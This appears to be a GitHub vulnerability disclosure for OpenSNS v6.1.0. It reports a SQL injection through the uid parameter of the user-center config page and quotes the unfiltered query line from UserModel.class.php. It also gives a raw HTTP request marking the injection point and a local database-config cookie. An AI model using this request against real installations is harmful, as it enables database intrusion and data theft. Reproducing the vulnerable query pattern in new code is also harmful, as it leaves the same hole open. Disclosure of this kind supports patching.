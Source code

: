 ### OpenSNS

---
Project official：http://www.opensns.cn
Projetc address： http://www.opensns.cn/home/index/download.html

---
### $Uid SQLINJECT
When I login user center
>URL:http://127.0.0.1/opensns_v6.1.0/index.php?s=/ucenter/Config/&uid=1
![Alt text](/OpenSNSv6.1.0/img/1.png)
```bash
Debug：The getNeedQueryData function $uid in the UserModel.class.php(./Application/Common/Model/UserModel.class.php) file is not properly filtered resulting in SQLINJECT
```
```bash
Code:$query_results = D('')->query('select ' . implode(',', $need_query) . " from `{$db_prefix}member`,`{$db_prefix}ucenter_member` where uid=id and uid={$uid} limit 1");
```
* POST:
```bash
GET /opensns_v6.1.0/index.php?s=/ucenter/Config/&uid=1* HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: 20cs_2132_saltkey=aZNf0Aiq; 20cs_2132_lastvisit=1562833062; PHPSESSID=jc0jgmdjmu1ihptvksahfnani0; opensns_db_config=think%3A%7B%22DB_PREFIX%22%3A%22ocenter_%22%2C%22DB_PORT%22%3A%223306%22%2C%22DB_PWD%22%3A%22root%22%2C%22DB_USER%22%3A%22root%22%2C%22DB_NAME%22%3A%22hackgo%22%2C%22DB_HOST%22%3A%22127.0.0.1%22%2C%22DB_TYPE%22%3A%22mysqli%22%7D; opensns_OX_LOGGED_USER=mQNFoONwIXTFkC7JA1j5G%3DW54F6qhcDXFdYJnW1uN-k3xNnA-foYHSB4tv74OD2hPTnFqYIZkbYZZVTJWXkGD8BQ1UExNSGMeaVxVyEimEE%3DkY0EV
Connection: close
```
>verification:
![Alt text](/OpenSNSv6.1.0/img//2.png)